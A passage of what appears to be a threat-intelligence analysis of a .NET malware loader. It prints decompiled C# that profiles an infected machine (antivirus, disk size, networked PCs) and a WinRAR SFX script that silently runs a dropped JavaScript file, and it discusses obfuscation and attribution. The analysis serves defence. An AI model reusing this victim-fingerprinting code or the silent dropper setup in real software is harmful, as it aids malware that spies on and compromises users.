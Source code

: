 ```cs
  }
  if (text2.Length < 2){text += "\"AntiVirus\":\"N/A\",";}
  else{text = text + "\"AntiVirus\":\"" + text2 + "\",";}
 }
 catch{text += "\"AntiVirus\":\"N/A\",";}
 long num = 0L;
 foreach (DriveInfo driveInfo in DriveInfo.GetDrives()){if (driveInfo.IsReady) {num += driveInfo.TotalSize;}}
 text = text + "\"Total Space\":\"" + (num / 1024L / 1024L / 1024L).ToString() + " GB\",";
 text = text + "\"Version\":\"" + Loader.version + "\",";
 List<string> list = new List<string>();
 using (DirectoryEntry directoryEntry = new DirectoryEntry("WinNT:"))
 {
  foreach (object obj in directoryEntry.Children)
  {
   DirectoryEntry directoryEntry2 = (DirectoryEntry)obj;
   foreach (object obj2 in directoryEntry2.Children)
   {
    DirectoryEntry directoryEntry3 = (DirectoryEntry)obj2;
    if (directoryEntry3.Name != "Schema"){list.Add(directoryEntry3.Name);}
   }
  }
 }
 if (list.Count == 0){text += "\"Network PCs\":\"N/A\"}";}
 else{text = text + "\"Network PCs\":\"" + list.Count.ToString() + "\"}";}
 Console.WriteLine(text);
 return text;
}
```

<h6>The full code of the .NET loader can be found <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/Additional%20Analysis/Unknown/2020-05-12/code/modern_loader.cs">here</a>.</h6>

<h6>The first improvement on the obfuscation between the first JS script are to push the elements into arrays and use the fact that the elements can be managed natively in hexadecimal.</h6>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional Analysis/Unknown/2020-05-12/Pictures/obfuscation_hex.PNG"></center>

<h6>This executed and dropped by SFX archive. During the creation of the executable archive, Winrar use the language defined on the system in the arguments pushed in the archive, we can see that the attacker use a Russian operating system.</h6>

```
CMT;Расположенный ниже комментарий содержит команды SFX-сценария\r\n\r\nSetup=firefox.js\r\nTempMode\r\nSilent=1\r\nOverwrite=1\r\nUpdate=U\r\n
D:\\Projects\\WinRAR\\sfx\\build\\sfxrar32\\Release\\sfxrar.pdb
```

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional Analysis/Unknown/2020-05-12/Pictures/trad_command.png"></center>

<h6>This content an unused function which not optimized for stealth because displays the windows for the capture and the inputs can be parasitized by the victim. The fact that it also starts word seems to be an oversight in a copy and paste from a forum for example.</h6>
